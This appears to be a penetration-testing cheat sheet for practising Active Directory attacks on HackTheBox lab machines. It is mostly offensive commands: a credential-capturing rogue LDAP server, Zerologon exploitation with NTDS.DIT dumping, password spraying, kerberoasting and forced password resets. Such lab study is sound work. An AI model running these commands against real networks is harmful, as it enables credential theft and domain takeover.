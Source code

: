 ## HackTheBox AD machines
Do the following machines and watch ippsec's videos on them
- monteverde
- cascade
- traversex
- fuse
- intelligence
- remote
- resolute
- sizzle
- multimaster
- sauna
- forest
- object
- active

# Enumeration

## RPC
RPC Null Authentication: `rpcclient -U '' <IP>`

RPC Null Authentication with no password: `rpcclient -U '' <IP>`

If you are able to log in, run `enumdomusers` to list out users

If you get a list of users, you can check their descriptions with the following command:

`querydispinfo`

## SMTP
`nmap -v --script="smtp*" -p25,110,143,465,587,993,995 <IP>`

## SMB
`crackmapexec smb <IP> --shares`

`crackmapexec smb <IP> -u '' -p '' --shares`

`crackmapexec smb <IP> -u '' --shares`

`crackmapexec smb <IP> --pass-pol`

`crackmapexec smb --users`

`smbmap -H <IP>`

`smbclient -L //<IP>`

`smbclient --no-pass //<IP>/<share name> -U''`

## LDAP
git clone windapsearch by ropnop if you don’t already have it

`python [windapsearch.py](http://windapsearch.py) -U --full --dc-ip <IP>`

- pipe this out to a tmp file and use the following command to sort. once sorted, look for interesting strings such as `password` or `pwd`
    - `cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr | grep ':'`
    - YOU SHOULD THEN `grep -i` FOR:
        - `pass`
        - `pwd`
        - `password`
        - `etc`

### Hosting a Rogue LDAP Server

Install the following packages`apt-get install slapd ldap-utils`

Enable package on boot with`systemctl enable slapd`

Configure server to make it insecure with `dpkg`

- `dpkg-reconfigure -p low slapd`
- When prompted, select `No`
- provide the target domain eg `hiddenleaf.local`
- use the same domain as the organization name
- provide an admin password eg `admin123`
- select `MDB` as the database to use
- select `yes` for the database to be removed when slapd in purged
- `yes` to move old database

To allow credentials to be shown in clear text we have to downgrade the authentication methods. Create an ldif file called `olcSaslSecProps.ldif`:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Use the file to patch the LDAP server:

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif`
- `systemctl restart slapd` or `service slapd restart`

Now listen using tcpdump:

`sudo tcpdump -SX -i eth0 tcp port 389`

It might take a few tries before you receive anything if you running over a vpn

## Zero Logon

*Do not run this is a production environment as this may break the domain controller*

git clone the github repo for `CVE-2020-1472` by dirkjanm and then download the `zero-logon tester` script for the same CVE by SecuraBV

run the tester script with the following syntax:

- `python3 [zerologontester.py](http://zerologontester.py) <DC NAME> <IP>`

if the script confirms the vulnerability, we can use secretsdump to dump the NTDS.DIT file:

- `impacket-secretsdump <domain name>/<DC NAME>\$@<DC IP> -just-dc`
- the `$` presents an empty value/string

# If you have a Valid User(s) and or Password(s):

- `python3 [bloodhound.py](http://bloodhound.py) -ns <DC IP> -d <domain> -dc <DC hostname> -u <username> -p <password> -c All`

- `rpcclient -U '<username>' <IP>` then run `enumdomusers` with this you can try `GetUserSPNs` or `GetNPUsers`

- *NO PASS REQ* `./kerbrute userenum -dc <DC IP> -d <domain> users.txt`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `./kerbrute passwordspray --dc <DC IP> -d <domain> users.txt <PASSWORD TO SPRAY>`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `impacket-GetUserSPNs <domain name>/<username>:<password> -outputfile krbroast`

- *NO PASS REQ* `impacket-GetNPUsers -dc-ip <DC IP> -no-pass -usersfile users.txt <domain name>/` OR `impacket-GetNPUsers -dc-ip <DC IP> -no-pass <domain name>/<username>`

- `crackmapexec smb <DC IP or CIDR range> smb/winrm - u <username file> -p <password file> --no-bruteforce --continue-on-success`

- `crackmapexec smb <IP> -u <username> -p <password> --shares -M spider_plus`

- `crackmapexec smb <IP> -u <username> -p <password> -M spider_plus`
    - to list out the contents of the spider plus module, you have to use `jq` to parse the data. to list everything in all the found shares run `cat /tmp/cme_spider_plus/<IP>.json | jq '. | map_values(keys)'`
    
## Misc

### Change User Pass with `rpcclient`
If your current user has the `ForceChangePass` flag on another user which you can find in bloodhound, you can use rpcclient to change the password then maybe read shares with smbclient/cme or do more enumeration with the new user and password
be sure to try a password that might fit in a password policy

- `rpcclient -U <username>`

- `setuserinfo2 <username to change password> 23 '<new password>'`

### Change User Pass with `smbpasswd`
`smbpasswd -U <username> -r <Domain name or IP>`

### Mount SMB Share
`sudo mount -t cifs -o 'username=<username>,password=<password>' //<IP>/<Share you want to mount> /mnt/<folder to mount to>`

### Cracking GPP Password/Hash
this is some sort of cpassword or something

`gpp-decrypt <hash>`
